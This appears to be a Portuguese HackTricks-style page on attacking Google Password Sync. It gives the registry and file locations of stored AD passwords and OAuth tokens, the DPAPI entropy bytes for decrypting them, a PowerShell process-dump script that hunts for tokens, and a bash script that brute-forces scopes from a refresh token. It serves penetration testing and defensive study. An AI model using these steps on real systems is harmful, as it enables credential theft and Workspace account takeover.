

# GPS - Google Password Sync

## Informações básicas

Google Password Sync sincroniza as senhas dos usuários do Microsoft Active Directory com suas contas gerenciadas do Google Workspace ou Cloud Identity. Ele não altera a senha do Active Directory; quando uma senha do AD é alterada, o Password Sync envia essa alteração para o Google.<sup>[[1]](#references)</sup>

Dependendo da versão e da arquitetura do produto, a instalação inclui `PasswordSync.exe` e `password_sync_service.exe` em um diretório do Google Password Sync. As ferramentas de suporte do Google verificam os locais `C:\Program Files\Google\Password Sync`, `C:\Program Files\Google\G Suite Password Sync` e `C:\Program Files\Google\Google Apps Password Sync`, incluindo seus equivalentes x86.<sup>[[5]](#references)[[6]](#references)</sup>

### GPS - Configuração

Password Sync oferece suporte a dois métodos de autenticação do Google:

- **3-legged OAuth** autoriza um administrador do Google Workspace e armazena um token de autorização para a instalação. Ele está disponível somente no Windows Server com Desktop Experience, e cada controlador de domínio deve ser autorizado separadamente.<sup>[[2]](#references)</sup>
- Uma **service account** usa um arquivo de credenciais JSON, funciona no Server Core e em instalações por linha de comando, e pode ser reutilizada entre controladores de domínio. O Google recomenda esse método para deployments maiores.<sup>[[2]](#references)</sup>

A service account deve receber o acesso ao Workspace exigido pelo Password Sync. Um superadministrador autoriza o client ID da service account para o escopo `https://www.googleapis.com/auth/admin.directory.user`; o Google permite funções predefinidas ou personalizadas do Workspace para uma service account, mas não a função de Super Admin em si.<sup>[[4]](#references)[[15]](#references)</sup>

Trate o JSON da service account como uma private key. As chaves de service account gerenciadas pelo usuário não expiram por padrão e permanecem válidas até serem desativadas ou excluídas; portanto, remova o JSON após a configuração e faça sua rotação ou revogação se ele for exposto.<sup>[[3]](#references)[[16]](#references)</sup>

Para consultas ao Active Directory, Password Sync pode usar o contexto de segurança da aplicação, acesso anônimo ou credenciais de usuário. O contexto de segurança da aplicação é o padrão recomendado; o acesso anônimo geralmente não é suportado, enquanto as credenciais de usuário podem ser fornecidas para uma conta de função com least privilege que possa ler os atributos de diretório necessários.<sup>[[3]](#references)</sup>

### GPS - Extração de senha e token do disco

> [!TIP]
> [**WinPEAS**](https://github.com/peass-ng/PEASS-ng/tree/master/winPEAS/winPEASexe) detecta o Google Password Sync, lê sua configuração, e seu módulo GPS tenta descriptografar a senha do AD e o token OAuth armazenados quando consegue ler os valores do registro.<sup>[[5]](#references)</sup>

O arquivo **`C:\ProgramData\Google\Google Apps Password Sync\config.xml`** contém configurações como o **`baseDN`** do AD, o nome de usuário autorizado e se o acesso anônimo está habilitado. A ferramenta de suporte do Google também coleta esse arquivo e os diretórios de tracing da instalação.<sup>[[5]](#references)[[6]](#references)</sup>

A chave de registro **`HKLM\Software\Google\Google Apps Password Sync`** pode conter `AuthToken`, `ADPassword` e outros valores de configuração. O WinPEAS lê `AuthToken` e `ADPassword` dessa chave e informa que a extração de credenciais do registro exige privilégios de administrador; inspecione as ACLs no alvo em vez de presumir que toda instalação tenha os mesmos valores.<sup>[[5]](#references)</sup>

A **senha** criptografada (se presente) é armazenada em `ADPassword`. A implementação do WinPEAS usa `CryptUnprotectData` com esta entropy opcional: `byte[] entropyBytes = new byte[] { 0xda, 0xfc, 0xb2, 0x8d, 0xa0, 0xd5, 0xa8, 0x7c, 0x88, 0x8b, 0x29, 0x51, 0x34, 0xcb, 0xae, 0xe9 };` Normalmente, o DPAPI associa a descriptografia às credenciais de logon do usuário que realizou a criptografia e ao computador; o mesmo blob de entropy opcional deve ser fornecido quando ele tiver sido usado.<sup>[[5]](#references)[[7]](#references)[[8]](#references)</sup>

O token criptografado (se presente) é armazenado em `AuthToken`. O WinPEAS usa `CryptUnprotectData` com esta entropy opcional: `byte[] entropyBytes = new byte[] { 0x00, 0x14, 0x0b, 0x7e, 0x8b, 0x18, 0x8f, 0x7e, 0xc5, 0xf2, 0x2d, 0x6e, 0xdb, 0x95, 0xb8, 0x5b };` Em seguida, ele decodifica o texto resultante como base32hex usando o alfabeto completo em minúsculas **`0123456789abcdefghijklmnopqrstuv`**.<sup>[[5]](#references)[[8]](#references)[[9]](#references)</sup>

Os valores de entropy acima são detalhes de implementação observados no módulo GPS do WinPEAS, e não uma garantia para todas as versões do Password Sync. Valide-os em relação à versão instalada antes de depender deles.<sup>[[5]](#references)</sup>

<figure><figcaption></figcaption></figure>

A instrumentação do DPAPI também pode revelar texto em claro na entrada ou saída de `CryptProtectData` e `CryptUnprotectData`; trate esses traces como credenciais e remova-os com segurança após os testes.<sup>[[7]](#references)[[8]](#references)</sup>

Com a autenticação por service account, a mesma área do registro pode expor valores de identificação como `Email` ou `ServiceAccountEmail`; a private key JSON é uma credencial separada e não deve ser mantida após a configuração.<sup>[[4]](#references)[[5]](#references)[[6]](#references)</sup>

### GPS - Extração de tokens da memória

Full process dumps de `PasswordSync.exe` e `password_sync_service.exe` podem expor refresh/access tokens ou credenciais do AD se esses valores estiverem residentes na memória. A opção `-ma` do ProcDump inclui memória de imagem, mapeada e privada, enquanto o Strings pode verificar strings ASCII e Unicode no dump resultante. Trate os arquivos de dump e o texto extraído como secrets.<sup>[[10]](#references)[[11]](#references)</sup>

<details>

<summary>Faça o dump dos processos <code>PasswordSync.exe</code> e <code>password_sync_service.exe</code> e procure tokens</summary>
```bash
# Define paths for ProcDump and Strings utilities
$procdumpPath = "C:\Tools\SysinternalsSuite\procdump.exe"
$stringsPath = "C:\Tools\SysinternalsSuite\strings.exe"
$dumpFolder = "C:\Users\Public\dumps"

# Regular expressions for tokens
$tokenRegexes = @(
"ya29\.[a-zA-Z0-9_\.\-]{50,}",
"1//[a-zA-Z0-9_\.\-]{50,}"
)

# Create a directory for the dumps if it doesn't exist
if (!(Test-Path $dumpFolder)) {
New-Item -Path $dumpFolder -ItemType Directory
}

# Get all Password Sync process IDs
$processNames = @("PasswordSync", "password_sync_service")
$passwordSyncProcesses = Get-Process | Where-Object { $processNames -contains $_.Name } | Select-Object -ExpandProperty Id

# Dump each Password Sync process
foreach ($processId in $passwordSyncProcesses) {
Write-Output "Dumping process with PID: $processId"
& $procdumpPath -accepteula -ma $processId "$dumpFolder\PasswordSync_$processId.dmp"
}

# Extract strings and search for tokens in each dump
Get-ChildItem $dumpFolder -Filter "*.dmp" | ForEach-Object {
$dumpFile = $_.FullName
$baseName = $_.BaseName
$asciiStringsFile = "$dumpFolder\${baseName}_ascii_strings.txt"
$unicodeStringsFile = "$dumpFolder\${baseName}_unicode_strings.txt"

Write-Output "Extracting strings from $dumpFile"
& $stringsPath -accepteula -n 50 -nobanner $dumpFile > $asciiStringsFile
& $stringsPath -n 50 -nobanner -u $dumpFile > $unicodeStringsFile

$outputFiles = @($asciiStringsFile, $unicodeStringsFile)

foreach ($file in $outputFiles) {
foreach ($regex in $tokenRegexes) {

$matches = Select-String -Path $file -Pattern $regex -AllMatches

$uniqueMatches = @{}

foreach ($matchInfo in $matches) {
foreach ($match in $matchInfo.Matches) {
$matchValue = $match.Value
if (-not $uniqueMatches.ContainsKey($matchValue)) {
$uniqueMatches[$matchValue] = @{
LineNumber = $matchInfo.LineNumber
LineText   = $matchInfo.Line.Trim()
FilePath   = $matchInfo.Path
}
}
}
}

foreach ($matchValue in $uniqueMatches.Keys) {
$info = $uniqueMatches[$matchValue]
Write-Output "Match found in file '$($info.FilePath)' on line $($info.LineNumber): $($info.LineText)"
}
}

Write-Output ""
}
}
```
</details>

### GPS - Gerando access tokens a partir de refresh tokens

O endpoint de token OAuth do Google aceita um refresh token, um client ID, um client secret opcional e `grant_type=refresh_token`, depois retorna um access token de curta duração quando o refresh token ainda é válido. Use seus próprios valores neste exemplo; nunca publique refresh tokens ou client secrets reais.<sup>[[12]](#references)</sup>
```bash
curl -s --data "client_id=YOUR_OAUTH_CLIENT_ID" \
--data "client_secret=YOUR_OAUTH_CLIENT_SECRET" \
--data "grant_type=refresh_token" \
--data "refresh_token=YOUR_REFRESH_TOKEN" \
https://oauth2.googleapis.com/token
```
### GPS - Scopes

> [!NOTE]
> Um refresh token não concede scopes arbitrários. Os access tokens são limitados aos scopes concedidos ao OAuth client e ao usuário, e o campo `scope` da resposta do token é a lista oficial dos scopes concedidos.<sup>[[12]](#references)</sup>
>
> Um refresh token também está vinculado à autorização do client/usuário e pode ser rejeitado quando usado com um client diferente.<sup>[[12]](#references)</sup>

Em uma avaliação autorizada, o script a seguir pode testar quais scopes documentados o exchange atual do refresh token aceita. É uma verificação empírica para esse token e client, não uma forma de adicionar privilégios; limite a taxa das requests e evite testar contas que não estejam sob seu controle.<sup>[[12]](#references)</sup>

<details>

<summary>Script Bash para testar scopes por brute-force</summary>
```bash
client_id="YOUR_OAUTH_CLIENT_ID"
client_secret="YOUR_OAUTH_CLIENT_SECRET"
refresh_token="YOUR_REFRESH_TOKEN"
token_url="https://oauth2.googleapis.com/token"

curl "https://developers.google.com/identity/protocols/oauth2/scopes" | grep -oE 'https://www.googleapis.com/auth/[a-zA-Z/\._\-]*' | sort -u | while read -r scope; do
echo -ne "Testing $scope           \r"
response=$(curl -s --data "client_id=$client_id" \
--data "client_secret=$client_secret" \
--data "grant_type=refresh_token" \
--data "refresh_token=$refresh_token" \
--data "scope=$scope" \
"$token_url")
if ! grep -q '"error"' <<< "$response"; then
echo ""
echo $scope
echo $scope >> /tmp/valid_scopes.txt
fi
done

echo ""
echo ""
echo "Valid scopes:"
cat /tmp/valid_scopes.txt
rm /tmp/valid_scopes.txt
```
</details>

E esta é a saída que obtive na época da redação:
```
https://www.googleapis.com/auth/admin.directory.user
```
Que é o mesmo que você obtém se não indicar nenhum escopo.

> [!CAUTION]
> Se a resposta do token incluir `https://www.googleapis.com/auth/admin.directory.user` e o principal do Workspace autorizado tiver o privilégio de gerenciamento de usuários necessário, o método `users.update` da Directory API poderá atualizar a senha de um usuário. O OAuth scope, por si só, não concede privilégios de administrador; verifique a função do principal e limite os testes a contas autorizadas.<sup>[[13]](#references)[[14]](#references)[[17]](#references)</sup>

## Referências

- [1] [Visão geral: Password Sync](https://knowledge.workspace.google.com/admin/users/overview-password-sync?hl=en)
- [2] [Escolha seu método de autenticação para Password Sync](https://knowledge.workspace.google.com/admin/users/choose-your-authentication-method)
- [3] [Configure Password Sync](https://knowledge.workspace.google.com/admin/users/configure-password-sync?hl=en)
- [4] [Crie uma service account para Password Sync](https://knowledge.workspace.google.com/admin/users/create-a-service-account)
- [5] [Implementação do Google Password Sync no WinPEAS](https://github.com/peass-ng/PEASS-ng/blob/master/winPEAS/winPEASexe/winPEAS/Info/CloudInfo/GPSInfo.cs)
- [6] [Google Password Sync Support Tool](https://github.com/google/password-sync-support-tool/blob/main/PasswordSyncSupportTool.vbs)
- [7] [Função CryptProtectData](https://learn.microsoft.com/en-us/windows/win32/api/dpapi/nf-dpapi-cryptprotectdata)
- [8] [Função CryptUnprotectData](https://learn.microsoft.com/en-us/windows/win32/api/dpapi/nf-dpapi-cryptunprotectdata)
- [9] [RFC 4648: Codificações Base-N](https://www.rfc-editor.org/rfc/rfc4648.html)
- [10] [ProcDump](https://learn.microsoft.com/en-us/sysinternals/downloads/procdump)
- [11] [Strings](https://learn.microsoft.com/en-us/sysinternals/downloads/strings)
- [12] [Uso do OAuth 2.0 para aplicações de servidor Web](https://developers.google.com/identity/protocols/oauth2/web-server)
- [13] [Método: users.update](https://developers.google.com/workspace/admin/directory/reference/rest/v1/users/update)
- [14] [Recurso REST: users](https://developers.google.com/workspace/admin/directory/reference/rest/v1/users)
- [15] [Crie credenciais de acesso](https://developers.google.com/workspace/guides/create-credentials)
- [16] [Práticas recomendadas para gerenciar chaves de service accounts](https://cloud.google.com/iam/docs/best-practices-for-managing-service-account-keys)
- [17] [Gerencie funções](https://developers.google.com/workspace/admin/directory/v1/guides/manage-roles)

{{#include ../../../banners/hacktricks-training.md}}
